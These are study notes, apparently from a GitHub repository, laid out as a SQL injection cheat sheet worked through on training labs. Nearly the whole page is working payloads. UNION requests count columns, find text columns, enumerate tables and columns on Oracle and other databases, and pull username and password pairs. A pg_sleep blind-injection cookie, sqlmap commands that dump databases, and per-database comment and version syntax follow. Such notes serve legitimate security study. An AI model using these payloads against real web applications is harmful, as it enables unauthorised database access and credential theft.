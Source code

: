 ### 1. SQL Injection UNION attack, determining the no of column

- __normal get request__
  - __`GET /filter?catergory=Gifts`__

- __check whether sql injection present or not__
  - __`GET /filter?catergory=Gifts'`__

- __Use UNION__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL--`__
  - __If still is show the same error that means there is more than one column__
  - __Try to add more NULL__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL,NULL,NULL--`__



### 2. SQL Injection UNION attak, finding a column containing text

- __normal get request__
  - __`GET /filter?catergory=Pets`__


- __check whether sql injection present or not__
  - __`GET /filter?catergory=Pets'`__


- __Use UNION__
  - __`GET /filter?catergory=Pets'+UNION+SELECT+NULL--`__
  - __If still is show the same error that means there is more than one column__
  - __Try to add more NULL__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL,NULL,NULL--`__

- __Now you found there are three column__
  - __so now you need to find which of the column have string__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+'admin',NULL,NULL--`__
  - __If you are getting error then the column is not a string then go and test for the remaining colums__
  - > __Note: what string you are replacing by NULL the string definetly should be present in the column__


### 3. SQL Injection UNION Attack, retrieving multiple values in a single column

- __normal get request__
  - __`GET /filter?catergory=Pets`__


- __check whether sql injection present or not__
  - __`GET /filter?catergory=Pets'UNION+SELECT+NULL,NULL,username||'~'||password+FROM+users--`__




## 5. non-Oracle databases

- __'+UNION+SELECT+NULL,NULL--__

- __Checking if any of them holds string data__
  - __`'+UNION+SELECT+'abc','def'--`__
  - __If the abc and def reflect in the page means the two columns hold string__


- __Getting the table name__
  - __`'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--`__

- __Extracting the column names from a table(users_kwechv)__
  - __`'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_kwechv'--`__


- __Extracting the data from the two columns (1.username_ygmrlj, 2.password_jiuphc) from table(users_kwechv)__
  - __`'+UNION+SELECT+username_ygmrlj,+password_jiuphc+FROM+users_kwechv--`__



## 6. Oracle databases

- __`'+UNION+SELECT+NULL,NULL--`__

- __Checking if any of them holds string data__
  - __`'+UNION+SELECT+'abc','def'+FROM+dual--`__
  - __If the abc and def reflect in the page means the two columns hold string__


- __Getting the table name__
  - __`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`__

- __Extracting the column names from a table(USERS_RDINGX)__
  - __`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_RDINGX'--`__


- __Extracting the data from the two columns (1.username_ygmrlj, 2.password_jiuphc) from table(USERS_RDINGX)__
  - __`'+UNION+SELECT+username_ygmrlj,+password_jiuphc+FROM+USERS_RDINGX--`__

## Blind SQL injection with time delays

- __`cookie: TrackingId=x'||pg_sleep(10);`__

# SQLmap

- __`sqlmap -u '<url>' --cookie='Trackingid=<id_value>; session=<value>' --level2`__
  - __if you dont the database name just run the above commands__

- __`sqlmap -u '<url>' --cookie='Trackingid=<id_value>; session=<value>' --level2 --dbms=postgreSQL --dump --threads=5`__


## Bypass XML encoding

![image1](/Image/sqlinjection1.png)

![image2](/Image/sqlinjection2.png)

![image3](/Image/sqlinjection3.png)



#  Types of database

- __1. Oracle__
- __2. Microsft__
- __3. PostgreSQL__
- __4. MySQL__


### Database comments
- __1. Oracle      | `--comment`__
- __2. Microsft    | `--comment or /*comment*/`__
- __3. PostgreSQL  | `--comment or /*comment*/`__
- __4. MySQL       | `#comment or -- comment or /*comment*/`__


### Database version
- __1. Oracle      | `SELECT banner FROM v$version or SELECT version FROM v$instance`__
- __2. Microsft    | `SELECT @@version`__
- __3. PostgreSQL  | `SELECT version()`__
- __4. MySQL       | `SELECT @@version`__













